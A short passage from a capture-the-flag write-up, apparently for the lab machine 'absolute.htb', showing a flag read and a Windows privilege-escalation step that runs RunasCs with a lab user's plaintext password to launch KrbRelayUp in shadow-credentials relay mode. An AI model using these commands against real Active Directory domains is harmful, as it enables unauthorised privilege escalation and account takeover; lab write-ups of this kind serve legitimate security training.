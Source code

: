 - Check with:

```bash
net user winrm_user

```

![image68](../resources/d163d0d16e8c4060a76df255cb4583c9.png)

```bash
cat root.txt

```
**<u>Priv Esc - KrbRelayUp - Option 2</u>**

```bash
.\RunasCs.exe m.lovegod AbsoluteLDAP2022! -d absolute.htb -l 9 "C:\Users\winrm_user\Documents\KrbRelayUp.exe relay -m shadowcred -cls {752073A1-23F2-4396-85F0-8FDB879ED0ED}"

```
